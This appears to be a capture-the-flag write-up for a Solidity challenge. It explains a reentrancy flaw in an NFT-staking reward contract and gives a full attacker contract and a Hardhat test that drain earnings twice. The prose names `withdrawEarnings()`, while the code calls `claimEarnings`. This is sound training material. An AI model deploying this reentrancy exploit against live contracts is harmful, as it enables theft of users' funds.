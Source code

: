 # Reward Token

## Goals

=> Attacker balanceOf should be 100e18 tokens
=> Depostior Contracts balanceOf should be 0
=> Must exploit in two transactions

### Hints

- None

### Solution

- The error lies in `withdrawAndClaimEarnings()`since it writes to storage after an external call through `safeTransferFrom()` this will call our malicious ERC721Receiver contract that will perform a reentrancy attack because the storage wasn't updated yet and can call `withdrawEarnings()` so we can withdraw twice the amount

### Steps

- Just call the deposit function in the attacker contract
- Wait 5 days or => `await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60])`in hardhat test
- Call the attack function and withdraw double the amount

### Attacker Contract

```solidity
contract RewardTokenAttacker is IERC721Receiver {
    IERC721 private nft;
    IERC20 private rewardToken;
    Depositoor private depositor;

    constructor() {}

    function attack(
        address _nft,
        address _depositor,
        address _rewardToken
    ) external {
        // setup for communicating with other contracts
        depositor = Depositoor(_depositor);
        nft = IERC721(_nft);
        rewardToken = IERC20(_rewardToken);
        depositor.withdrawAndClaimEarnings(42);
    }

    function deposit(
        address _nft,
        address _depositor,
        address _rewardToken
    ) external {
        depositor = Depositoor(_depositor);
        nft = IERC721(_nft);
        rewardToken = IERC20(_rewardToken);
        nft.approve(address(depositor), 42);
        nft.safeTransferFrom(address(this), address(depositor), 42);
    }

    /*
     * @title Basic receiver function from IERC721Receiver
     * @notice every time an NFT is received this gets triggered
     * @dev it's used to keep track of the staked nft
     */
    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external override returns (bytes4) {
        depositor.claimEarnings(42);
        return IERC721Receiver.onERC721Received.selector;
    }
}

```

### Test

```javascript
it('conduct your attack here', async function () {
	const depositTx = await attackerContract
		.connect(attackerWallet)
		.deposit(NFTToStakeContract.address, depositoorContract.address, rewardTokenContract.address);
	await depositTx.wait();
	await ethers.provider.send('evm_increaseTime', [5 * 24 * 60 * 60]);
	await ethers.provider.send('evm_mine');
	const attackTx = await attackerContract
		.connect(attackerWallet)
		.attack(NFTToStakeContract.address, depositoorContract.address, rewardTokenContract.address);
	await attackTx.wait();
});
```
